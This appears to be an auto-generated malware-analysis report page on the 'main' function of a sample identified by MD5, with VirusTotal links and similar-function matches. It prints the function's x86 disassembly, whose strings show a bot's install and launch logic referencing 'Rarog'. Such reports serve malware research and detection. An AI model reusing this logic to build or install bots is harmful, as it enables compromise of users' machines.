 ```yaml
---
layout: post
title:  "main @ 69b3c79878674ea715338a112bb5caa6"
date:   2021-08-30 15:52:19 +0300
categories: report
index: false
---
```


# Generic Information
- **Function:** main
- **Origin (md5):** 69b3c79878674ea715338a112bb5caa6
- **VirusTotal:** [virustotal.com/gui/file/69b3c79878674ea715338a112bb5caa6][virustotal_ref]

# Code Tags
<span class="tag" id="FILE">FILE</span>


# Similar Functions

1. [fcn.0047b788][similar_1_ref] (sim.: 0.9031899137462409)
2. [fcn.004020d5][similar_2_ref] (sim.: 0.8681880686212013)
3. [fcn.00474ed0][similar_3_ref] (sim.: 0.8680318944485541)
4. [fcn.00474ed0][similar_4_ref] (sim.: 0.8680318944485541)
5. [fcn.00474ed0][similar_5_ref] (sim.: 0.8680318944485541)


# Disassembled Code

{% highlight nasm %}
push ebp
mov ebp,esp
sub esp,0x424
mov eax,dword[0x42e364]
xor eax,ebp
mov dword[ebp-4],eax
push ebx
push esi
push edi
call fcn.00402707
push str.explorer.exe
call fcn.0040a115
push 0xf
xor ebx,ebx
pop esi
test al,al
jne 0x4077fb
sub esp,0x1c
mov ecx,esp
mov dword[ebp-0x424],esp
mov dword[ecx+0x14],esi
mov dword[ecx+0x10],ebx
push str.WinMain____Warning__explorer.exe_not_started__using_ShellExecute__
mov byte[ecx],bl
call fcn.00401caf
call fcn.0040284c
push 5
push ebx
push 0x4282a0
push str.C:Windowsexplorer.exe
push ebx
push ebx
call dword[sym.imp.SHELL32.dll_ShellExecuteA]
push 0x400
lea eax,[ebp-0x404]
push eax
push ebx
call dword[sym.imp.KERNEL32.dll_GetModuleFileNameA]
lea eax,[ebp-0x404]
mov dword[ebp-0x40c],esi
mov dword[ebp-0x410],ebx
mov byte[ebp-0x420],bl
lea edx,[eax+1]
mov cl,byte[eax]
inc eax
cmp cl,bl
jne 0x407829
sub eax,edx
push eax
lea eax,[ebp-0x404]
push eax
lea ecx,[ebp-0x420]
call fcn.00401ecb
sub esp,0x1c
mov eax,esp
mov dword[ebp-0x424],esp
push str.WinMain___Current_path:_
push eax
lea edi,[ebp-0x420]
call fcn.00408c43
pop ecx
pop ecx
call fcn.0040284c
push 0xb
push str.ProgramData
mov eax,edi
push eax
xor eax,eax
call fcn.00408577
sub esp,0x1c
mov ecx,esp
mov dword[ecx+0x14],esi
mov dword[ecx+0x10],ebx
mov dword[ebp-0x424],esp
mov byte[ecx],bl
cmp eax,0xffffffff
jne 0x4078c2
push str.WinMain___Bot_not_installed__using_Install__
call fcn.00401caf
call fcn.0040284c
call fcn.00406b6f
push ebx
push 1
mov ecx,edi
call fcn.00401cd0
mov ecx,dword[ebp-4]
pop edi
pop esi
xor ecx,ebp
xor eax,eax
pop ebx
call fcn.0040c22b
leave
ret 0x10
push str.WinMain___Bot_installed__using_Rarog__
call fcn.00401caf
call fcn.0040284c
call fcn.00405750
int3
{% endhighlight %}


[similar_1_ref]: /report/fcn.0047b788@b3771987fba16f4fba07d1109ec72c76
[similar_2_ref]: /report/fcn.004020d5@6c5b0418e4a4c57d99cda47d2717045d
[similar_3_ref]: /report/fcn.00474ed0@fb9b7d22bc1c143ac66b0575cbdd088d
[similar_4_ref]: /report/fcn.00474ed0@912f1d013a0d6151bc7a7cef6da1b2a0
[similar_5_ref]: /report/fcn.00474ed0@152885a790b99953ce23874f0947b7bd
[virustotal_ref]: https://www.virustotal.com/gui/file/69b3c79878674ea715338a112bb5caa6